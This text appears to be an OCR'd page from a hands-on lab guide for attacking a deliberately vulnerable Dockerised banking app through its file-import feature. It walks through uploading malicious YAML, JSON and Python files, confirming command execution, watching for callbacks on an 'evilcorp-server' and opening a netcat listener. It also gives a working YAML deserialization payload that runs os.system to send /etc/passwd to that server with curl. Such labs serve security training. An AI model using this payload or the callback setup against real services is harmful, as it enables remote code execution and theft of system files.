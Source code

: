 
## Testing Steps

### 1. Upload Malicious Files

1. **Navigate to Import Page:**
   ```
   http://localhost:5000/import
   ```

2. **For YAML attacks:**
   - Select "YAML Config" format
   - Upload your `.yaml` file
   - Click "Import Transactions"

3. **For JSON attacks:**
   - Select "JSON Template" format  
   - Upload your `.json` file
   - Click "Import Transactions"

4. **For Script attacks:**
   - Select "Config Script" format
   - Upload your `.py` file
   - Click "Import Transactions"

### 2. Verify Attack Success

**Check file creation (Terminal 1):**
```
docker exec -it banking-app sh
ls -la /tmp/
cat /tmp/yaml_test.txt
cat /tmp/json_success.txt
cat /tmp/script_success.txt
```

**Check HTTP callbacks (Terminal 2):**
```
docker exec -it evilcorp-server sh
cd /app/stolen_data
ls -la
cat http_*.txt
```

**Monitor netcat connections (Terminal 2):**
```
docker exec -it evilcorp-server sh
nc -lvp 5555
```

---

## Data Exfiltration Examples

### Via HTTP POST
**YAML Example:**
```
exfil_http: !!python/object/apply:os.system
  - "cat /etc/passwd | curl -X POST http://evilcorp-server:8888/data --data-binary @-"
```
